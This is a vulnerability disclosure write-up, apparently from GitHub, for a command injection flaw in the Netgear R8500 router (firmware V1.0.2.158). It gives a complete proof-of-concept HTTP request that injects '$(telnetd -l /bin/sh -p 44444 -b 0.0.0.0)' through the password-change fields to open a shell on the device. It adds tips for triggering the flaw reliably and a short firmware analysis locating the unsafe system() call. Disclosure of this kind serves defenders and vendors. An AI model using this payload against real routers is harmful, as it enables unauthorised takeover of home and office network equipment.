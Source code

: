 # Netgear R8500  Router Vulnerability

## Basic infomation

* Vendor: Netgear

* Product: R8500

* Firmware version: V1.0.2.158

* Firmware download link: https://www.downloads.netgear.com/files/GDC/R8500/R8500-V1.0.2.158_1.0.105.zip

* Type:Remote Command Execution

* author:donothingme

  

## Vulnerability description

We found a Command Injection vulnerability in Netgear R8500 router, which allows an authenticated attacker to execute arbitrary OS commands by a crafted request.



In set password page(http://www.routerlogin.net/PWD_password.htm), we can set new password. 

The `sysNewPasswd` and `sysConfirmPasswd` fields have a command injection vulnerability. If we set the two fields equal to `%24%28telnetd+-l+%2Fbin%2Fsh+-p+44444+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 44444 -b 0.0.0.0)`.

![image-20220321145311536](./2.assets/image-20220321145311536.png)



The POC like follows:

```
POST /password.cgi?id=011b0b1ad47a66d6220c8cd546f41a553cafa50aaadb10fe3dd324af7225cf35 HTTP/1.1
Host: www.routerlogin.net
Proxy-Connection: keep-alive
Content-Length: 425
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Upgrade-Insecure-Requests: 1
Origin: http://www.routerlogin.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.routerlogin.net/PWD_password.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XSRF_TOKEN=1222440606

buttonHit=cfAlert_Apply&buttonValue=%E5%BA%94%E7%94%A8&cfAlert_Apply=%E5%BA%94%E7%94%A8&sysOldPasswd=password&sysNewPasswd=%24%28telnetd+-l+%2Fbin%2Fsh+-p+44444+-b+0.0.0.0%29&sysConfirmPasswd=%24%28telnetd+-l+%2Fbin%2Fsh+-p+44444+-b+0.0.0.0%29&checkPassRec=1&question1=1&answer1=test&question2=1&answer2=test&timestamp_value=Mon+Mar+21+2022+09%3A41%3A08+GMT%2B0800+%28%E4%B8%AD%E5%9B%BD%E6%A0%87%E5%87%86%E6%97%B6%E9%97%B4%29
```



And as we can see, after send the craft request, the command is actually executed, and we can get a shell.

![image-20220321094402948](./2.assets/image-20220321094402948.png)



**Some tips to trigger vulnerability:**

* Use IP address(192.168.1.1) instead of url(www.routerlogin.net) to access web page
* Plug in the USB stick to make sure reproduce successfunly



## Firmware analysis

We can locate the vulnerability function by string "password.cgi".

![image-20220321143703221](./2.assets/image-20220321143703221.png)



In function `sub_38944`, the `sysNewPasswd` field is directly saved in nvram config, and this field is directly controlled by attackers.

![image-20220321145040867](./2.assets/image-20220321145040867.png)



The nvram value `htt_passwd` is used in many functions, and some functions use this value to execute function `system()`, so it will cause a command injection vulnerability.

![image-20220321145204145](./2.assets/image-20220321145204145.png)